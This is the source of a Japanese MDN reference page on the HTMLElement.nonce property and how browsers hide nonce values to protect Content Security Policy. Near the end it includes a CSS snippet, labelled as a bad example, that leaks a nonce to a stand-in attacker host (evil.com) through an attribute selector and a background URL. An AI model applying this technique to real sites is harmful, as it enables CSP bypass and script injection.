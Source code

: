 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
tags:
  - API
  - Content Security Policy
  - Experimental
  - HTML DOM
  - HTMLElement
  - プロパティ
  - リファレンス
  - nonce
browser-compat: api.HTMLElement.nonce
translation_of: Web/API/HTMLElement/nonce
original_slug: Web/API/HTMLElement/nonce
---
```

{{APIRef("HTML DOM")}}

**`nonce`** は {{DOMxRef("HTMLElement")}} インターフェイスのプロパティで、特定の読み取りを続行できるかどうかを決定するためにコンテンツセキュリティポリシー ([Content Security Policy](/ja/docs/Web/HTTP/CSP)) で使用される一度だけの暗号化番号を返します。

後の実装では、 `nonce` 属性を持つ要素はスクリプトにのみ公開します（CSS 属性セレクターのようなサイドチャネルには公開しません）。

## 例

### ノンス値の受け取り

以前は、すべてのブラウザーが IDL 属性の `nonce` に対応している訳ではなかったので、回避策としては、代替として [`getAttribute`](/ja/docs/Web/API/Element/getAttribute) を使用するようにしていました。

```js
let nonce = script['nonce'] || script.getAttribute('nonce');
```

しかし、最近の版のブラウザーでは、この方法でアクセスすると `nonce` の値を隠します（空の文字列が返されます）。 IDL プロパティ (`script['nonce']`) がノンスにアクセスする唯一の方法となります。

ノンスを隠蔽することは、攻撃者が以下のようなコンテンツ属性からデータを取得できるメカニズムを介してノンスデータを流出させることを防ぐのに役立ちます。

```css example-bad
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## 仕様書

{{Specifications}}

## ブラウザーの互換性

{{Compat}}

## 関連情報

- [`nonce` グローバル属性](/ja/docs/Web/HTML/Global_attributes/nonce)
- [コンテンツセキュリティポリシー](/ja/docs/Web/HTTP/CSP)
- CSP: {{CSP("script-src")}}

